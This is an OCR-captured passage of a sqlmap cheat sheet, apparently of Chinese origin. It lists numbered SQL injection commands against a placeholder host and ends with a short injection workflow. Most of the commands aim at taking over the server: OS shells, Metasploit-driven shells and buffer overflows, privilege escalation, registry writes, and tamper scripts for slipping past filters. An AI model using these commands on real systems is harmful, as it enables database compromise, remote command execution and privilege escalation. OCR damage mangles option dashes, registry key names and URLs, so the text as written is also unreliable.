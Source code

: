 9.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-shell –union-use -v 2

10.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-pwn –msf-path=/opt/framework/msf3 –priv-esc -v 1

11.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-pwn –msf-path=/opt/framework/msf3 -v 1

12.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –os-bof –msf-path=/opt/framework/msf3 -v 1

13.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 –reg-add –reg-key=”HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap” –reg-value=Test –reg-type=REG_SZ –reg-data=1

14.

./sqlmap.py -u http://www.evil0x.com/ test.php?p=2 -b –eta

15.

./sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/get_str_brackets.php?id=1″ -p id –prefix “‘)” –suffix “AND (‘abc’='abc”

16.

./sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/basic/get_int.php?id=1″ –auth-type Basic –auth-cred “testuser:testpass”

17.

./sqlmap.py -l burp.log –scope=”(www)?\.target\.(com|net|org)”

18.

./sqlmap.py -u “http://www.evil0x.com/ sqlmap/mysql/get_int.php?id=1″ –tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

19.

./sqlmap.py -u “http://www.evil0x.com/ sqlmap/mssql/get_int.php?id=1″ –sql-query “SELECT ‘foo’” -v 1

20.

./sqlmap.py -u “http://www.evil0x.com/ mysql/get_int_4.php?id=1″ –common-tables -D testdb –banner

简单的注入流程

1.读取数据库版本，当前用户，当前数据库

sqlmap -u http://www.evil0x.com/ test.php?p=2 -f -b –current-user –current-db -v 1

2.判断当前数据库用户权限

sqlmap -u http://www.evil0x.com/ test.php?p=2 –privileges -U 用户名 -v 1
